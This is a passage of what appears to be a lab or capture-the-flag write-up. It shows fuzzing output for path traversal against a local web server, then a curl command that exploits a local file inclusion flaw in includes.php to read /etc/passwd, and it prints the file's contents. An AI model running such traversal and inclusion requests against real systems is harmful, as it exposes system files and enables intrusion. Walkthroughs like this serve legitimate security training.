 ```bash
000000753:   200        8 L      12 W       136 Ch      "/var/www/html/.htaccess"                              
000000736:   200        32 L     81 W       42588 Ch    "/var/log/wtmp"                                        
000000922:   200        28 L     41 W       1460 Ch     "///////../../../etc/passwd"                           
000000645:   200        556672   7104428    60614924    "../../../../../../../var/log/apache2/access.log"      
                         L       W          Ch                                                                 
000000643:   200        556662   7104308    60613510    "/var/log/apache2/access.log"                          
                         L       W          Ch                                                                 

Total time: 0
Processed Requests: 922
Filtered Requests: 857
Requests/sec.: 0
```

**Key points:** 
- `curl "http://192.168.0.101/includes.php?display_page=/var/log/apache2/access.log"`
- `/var/log/apache2/access.log`

## 3. Explotation LFI

**Curl `/etc/passwd`**:

```bash
❯ curl "http://192.168.0.101/includes.php?display_page=/etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:104:111:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
john:x:1000:1000:,,,:/home/john:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
```
